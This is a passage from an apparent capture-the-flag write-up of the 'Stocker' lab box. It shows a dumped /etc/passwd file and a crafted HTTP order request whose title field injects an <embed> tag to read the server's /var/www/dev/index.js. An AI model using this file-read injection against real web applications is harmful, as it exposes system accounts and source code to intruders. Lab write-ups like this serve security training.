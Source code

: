 ```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System
(admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network
Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd
Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time
Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
landscape:x:109:116::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
fwupd-refresh:x:112:119:fwupd-refresh
user,,,:/run/systemd:/usr/sbin/nologin
mongodb:x:113:65534::/home/mongodb:/usr/sbin/nologin
angoose:x:1001:1001:,,,:/home/angoose:/bin/bash
```

7) `/var/www/` is the default web server directory, and we are on the dev virtual host so `/var/www/dev` seems like a good place to look, we know the web server is Express and ultimately NodeJS, so the running web service is likely running at `/var/www/dev/index.js`:

-->Request:
```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
Content-Length: 242
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://dev.stocker.htb
Referer: http://dev.stocker.htb/stock
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3Au2leb_5c4zbpJeqwBLbYR3i5an29uEWb.nf31pq5DiaQzBDQ%2BV1YuCWA48u79ovUcpIpdhEvDIpY
Connection: close

{"basket":[{"_id":"638f116eeb060210cbd83a8d",
            "title":
             "<embed src=/var/www/dev/index.js width=600px  height=600px </embed>",
            "description":"It's a red cup.",
            "image":"red-cup.jpg","price":32,
            "currentStock":4,"__v":0,
            "amount":1
            }
         ]
 }
```
